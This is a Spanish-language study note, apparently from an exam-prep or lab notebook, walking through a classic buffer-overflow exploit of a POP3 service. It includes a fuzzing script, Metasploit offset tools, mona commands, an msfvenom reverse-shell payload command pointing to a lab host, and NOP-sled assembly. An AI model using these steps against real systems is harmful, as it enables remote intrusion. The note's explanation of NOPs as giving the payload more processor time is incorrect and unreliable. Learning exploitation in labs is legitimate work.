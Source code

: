 ```yaml
---
created: 2024-12-21

---
```

--------------------
- tags: #BufferOverflow #system #privilegeescalation 
---------------


### Mini script como plantilla de ayuda para explotar un servicio remoto

```python 3
import socket
import sys
from struct import pack
from time import sleep

# Variables globales
ip = "192.168.0.159"
port = 110

if len(sys.argv) != 2:
        print("Se requiere añadir un payload para la contraseña.\n\n \t + Ejemplo: python3 exploit.py AAAAAA" + "\n")
        exit(1)

payload = int(sys.argv[1])

#total_lenght = int(sys.argv[1])

s  = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

banner = s.recv(1024)
print("\n[+] Banner del servicio:\n" + str(banner) + "\n")

sleep(3)

s.send(b"USER hola\r\n")
respuesta = s.recv(1024)
print("[+] Respuesta al usuario: \n" + str(respuesta) + "\n")

s.send(b"PASS " + b"A"*payload + b"\r\n")
respuesta2 = s.recv(1024)
print("[+] Respuesta a la contraseña: \n" + str(respuesta2) + "\n")


```




### Generar cadena de bytes para hallar el offset

	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l numero de bytes

	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500

### Conocer el valor del offset a partir del valor del EIP en el crasheo

	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0xValor de EIP 

	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x34644633



	!mona  bytearray
	!mona bytearray -cpb '\x00\x0a\x0d'

025DA128 Es el valor de ESP

	!mona compare -a 0x025DA128 -f C:\Users\david\Desktop\Mona\bytearray.bin



### Generar payload con msfvenom

	msfvenom -p windows/shell_reverse_tcp --format py --platform windows -a x86 -b '\x00\x0a\x0d' LHOST=192.168.0.123 LPORT=443 EXITFUNC=thread


### Búsqueda de módulo para encontrar el jmp esp y saltar al ESP donde estará el payload

	!mona modules
(Buscamos uno con las cuatro primeras columnas en False y copiamos la dirección de la memoria)


┌──(root💀davidalonso)-[~/maquinas/BOF/second_try]
└─# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb                  
nasm > jmp ESP
/tmp/nasmXXXX20230719-51582-cduzas:2: error: parser: instruction expected
Error: Assembler did not complete successfully: 1
nasm > jmp ESP
00000000  FFE4              jmp esp



	!mona find -s '\xFF\xE4' -m SLMFC.DLL

### Si con ese comando no encontramos nada, tambien podemos usar este:

	!mona findwild -s "JMP ESP"



### Añadir NOPS antes de enviar el payload

	payload = before_eip + eip + b"\x90"*50 + buf

> Los NOPS hacen referencia a ese b"\\x90"\*50 que se ve, esto le permite al programa asignarle más tiempo de procesador
> a nuestro payload, ya que de lo contrario no tendrá tiempo suficiente para ejecutarse. Se puede aumentar todavía más 
> si es necesario


















